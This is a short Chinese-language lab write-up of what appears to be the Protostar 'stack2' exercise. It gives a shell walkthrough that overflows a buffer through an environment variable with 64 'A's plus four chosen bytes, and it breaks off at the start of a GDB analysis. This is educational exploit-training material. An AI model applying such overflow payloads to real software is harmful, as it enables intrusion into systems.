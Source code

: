 ```c
    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```



## 攻击目标

使程序输出`you have correctly modified the variable`。



## 攻击过程

```shell
$ cat stack2_new_env.py
buffer = "A"*64
mod = "\x0a\x0d\x0a\x0d"
new_env = buffer + mod
print new_env
$ export GREENIE=`python stack2_new_env.py`	#设置环境变量
$ echo $GREENIE	#查看环境变量
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA	#64个A，最后4个字符为不可见字符
$ ./stack2
```

<img src=".\stack2-result.png" style="zoom:67%;" />



## 原理分析

分析源码可知，程序在正常情况下的输出结果应该是 `Try again, you got 0x00000000`。

同样的，在GDB中得到汇编代码：
